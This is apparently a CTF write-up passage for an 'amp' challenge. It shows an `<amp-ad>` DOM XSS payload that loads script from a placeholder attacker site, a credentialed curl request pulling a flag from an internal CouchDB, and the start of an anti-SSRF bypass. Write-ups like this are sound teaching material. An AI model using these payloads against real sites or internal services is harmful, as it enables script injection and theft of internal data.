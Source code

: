 # amp

## Solution

This challenge is inspired by [XSS in GMail's AMP4Email via DOM Clobbering](https://research.securitum.com/xss-in-amp4email-dom-clobbering/).

### Part 1

You should find a DOM XSS in AMP. `<amp-ad>` can import a bulk of third-party ads scripts, and I believe there must be at least 1 script can help us. After about 30 minutes, I found one:

```html
  <amp-ad
    width="728"
    height="90"
    type="f1h"
    data-section-id="100"
    data-slot="107"
    data-custom='{"my_custom_param":"my_custom_value"}'
    data-pubnetwork-lib="https://YOUR_WEBSITE"
  >
  </amp-ad>
```

You may be confused because the documentation said the `<amp-ad>` component is only available after import `amp-ad-0.1.js` manually as others components like `<amp-iframe>`. You can read the code [here](https://github.com/ampproject/amphtml/blob/a378126ee4dde944577e0571f53c60fe968be4ec/src/service/extensions-impl.js#L34), it's for compatibility with older versions.

### Part 2.1
The flag is hidden in CouchDB server, and it provides HTTP REST API. You may want to request it directly in browser. As `docker-compose.yml`, the server IP is `172.30.1.3`.

Getting flag by curl is easy:
```bash
/app # curl http://a08f8e0260c64418510cefb2b06eee5cd:bbb@172.30.1.3:5984/a08f8e0260c64418510cefb2b06eee5cd/flag
{"_id":"flag","_rev":"1-25c34c2f8c6567927ede3f02a9ab121b","flag":"flag{123456}"}
```

But in browser it's hard. Requesting this is blocked because of CORS, so the only way is to render the response in the document. If you try to iframe it, or using ``location.href`` to redirect, you will found it had been blocked by Chrome, see [Drop support for embedded credentials in subresource requests.](https://www.chromestatus.com/feature/5669008342777856). So the only way is to request CouchDB through `/validator` with `type=url`.

It has an anti-SSRF measure:
```javascript
const parsed = new URL(url)
// ...
(isIp(host2) && IP.isPublic(host) && IP.isPublic(host2))
```
